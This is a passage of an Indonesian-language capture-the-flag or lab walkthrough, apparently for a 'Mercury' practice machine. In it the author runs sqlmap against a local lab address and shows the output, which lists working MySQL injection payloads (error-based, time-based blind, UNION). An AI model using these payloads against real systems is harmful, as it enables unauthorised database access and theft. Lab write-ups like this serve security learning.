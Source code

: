 kemudian aku langsung tertarik untuk melihat `Website Todo List: See list.` yang ada di halaman tersebut, dan menemukan tampilan seperti ini:

<img src="img/loadafact.png" alt="Load a Fact">

Disini ada kalimat `"Use models in django instead of direct mysql call"`. Walaupun aku tidak tau artinya, aku ingin mencoba menggunakan sqlmap.

### Step 3: SQL Injection dengan sqlmap

aku disini menggunakan `sqlmap` dengan command berikut untuk melihat database yang ada
:

```bash
$ sqlmap http://192.168.56.112:8080/mercuryfacts/ --dbs --batch
```

dan outputnya seperti ini

```bash
        ___
       __H__
 ___ ___[']_____ ___ ___  {1.9.8#stable}
|_ -| . [,]     | .'| . |
|___|_  [.]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 23:35:42 /2025-09-28/

[23:35:42] [WARNING] you've provided target URL without any GET parameters (e.g. 'http://www.site.com/article.php?id=1') and without providing any POST parameters through option '--data'
do you want to try URI injections in the target URL itself? [Y/n/q] Y
[23:35:42] [INFO] resuming back-end DBMS 'mysql' 
[23:35:42] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: #1* (URI)
    Type: error-based
    Title: MySQL >= 5.6 error-based - Parameter replace (GTID_SUBSET)
    Payload: http://192.168.56.112:8080/mercuryfacts/GTID_SUBSET(CONCAT(0x716a717871,(SELECT (ELT(9327=9327,1))),0x7171707171),9327)

    Type: time-based blind
    Title: MySQL >= 5.0.12 time-based blind - Parameter replace
    Payload: http://192.168.56.112:8080/mercuryfacts/(CASE WHEN (4644=4644) THEN SLEEP(5) ELSE 4644 END)

    Type: UNION query
    Title: MySQL UNION query (random number) - 1 column
    Payload: http://192.168.56.112:8080/mercuryfacts/-9229 UNION ALL SELECT CONCAT(0x716a717871,0x55495042685863566c59614e734b51506f546e4374747477565972626d624f596755426f66657179,0x7171707171)#
---
```